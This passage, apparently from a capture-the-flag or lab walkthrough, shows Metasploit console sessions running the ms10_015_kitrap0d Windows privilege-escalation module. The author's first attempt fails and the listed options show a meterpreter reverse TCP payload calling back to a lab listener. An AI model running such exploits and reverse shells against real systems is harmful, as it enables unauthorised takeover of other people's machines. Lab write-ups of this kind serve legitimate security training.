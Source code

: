     Module options (exploit/windows/local/ms10_015_kitrap0d):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION                   yes       The session to run this module on.


    Exploit target:

       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)



I'll set the session to 1, and then run it... and it fails:



    msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
    session => 1
    msf5 exploit(windows/local/ms10_015_kitrap0d) > run

    [*] Started reverse TCP handler on 10.1.1.41:4444
    [*] Launching notepad to host the exploit...
    [+] Process 2672 launched.
    [*] Reflectively injecting the exploit DLL into 2672...
    [*] Injecting exploit into 2672 ...
    [*] Exploit injected. Injecting payload into 2672...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Exploit completed, but no session was created.



If I run `options`, I'll see why:



    msf5 exploit(windows/local/ms10_015_kitrap0d) > options

    Module options (exploit/windows/local/ms10_015_kitrap0d):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SESSION  1                yes       The session to run this module on.


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.1.1.41        yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
